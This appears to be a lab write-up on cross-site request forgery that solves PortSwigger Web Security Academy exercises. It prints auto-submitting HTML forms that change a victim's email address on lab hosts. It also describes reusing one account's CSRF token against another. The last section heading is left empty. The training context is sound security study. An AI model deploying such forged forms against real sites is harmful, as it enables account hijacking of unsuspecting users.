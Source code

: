 # Cross-site request forgery (CSRF)

Check detail at [here](https://portswigger.net/web-security/csrf)

Type of attack in this example
 - [A relevant action](#a-relevant-action)
 - [Cookie-based session handling](#cookie-based-session-handling)
 - [No unpredictable request parameters](#no-unpredictable-request-parameters)


## A relevant action

[Lab 1](https://portswigger.net/web-security/csrf/lab-no-defenses)

Description of this lab: craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server, we can log in with credentials: `wiener:peter` and this lab's email change functionality is vulnerable to CSRF

We found that when we log in successfully, this has email change field that we can exploit. Moreover, there is an exploit server in this lab, use this HTML in body field

```html
    <form action="https://0a4d00870370bbf4c1d27dfb00060001.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;example&#46;com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
```

Clicking store button, then verifying that the exploit works, clicking "View exploit" and check the resulting HTTP request and response. Clicking "Deliver to victim" to solve the lab.

## Cookie-based session handling

[Lab 4](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

Description of this lab: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address, and two accounts on the application that you can use to help design your attack `wiener:peter; carlos:montoya`

Note: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

We will need 2 browsers for this lab:
 - Browser 1: log in with `carlos:montoya` and change email, website will generate valid token in payload, like this `email=demo%40demo.demo&csrf=WTvWupXdfWayFeCnkI61Wjz40gY3GaVf`. However, every token can use only one time, so if you want to use token, reload page again. Check the code, and we can see that:

 ```html
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input required="" type="hidden" name="csrf" value="WTvWupXdfWayFeCnkI61Wjz40gY3GaVf">
        <button class="button" type="submit"> Update email </button>
    </form>
 ```

 - Browser 2: log in with `wiener:peter`, send the update email request into Burp Intercept and replace its token by token of browser 1, you can see this modified request changing wiener's email.
 Go back to browser 1, and reload page, copy its token in code, then using this in exploit server with below script.

 ```html
    <form action="https://0a2b005504f730f7c2a8028100f2007c.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;example&#46;com">
        <input type="hidden" name="csrf" value="ORVMYq9vt8rwzDakiea2fjBT3kqPT4iy">
    </form>
    <script>
      document.forms[0].submit();
    </script>
 ```

## No unpredictable request parameters

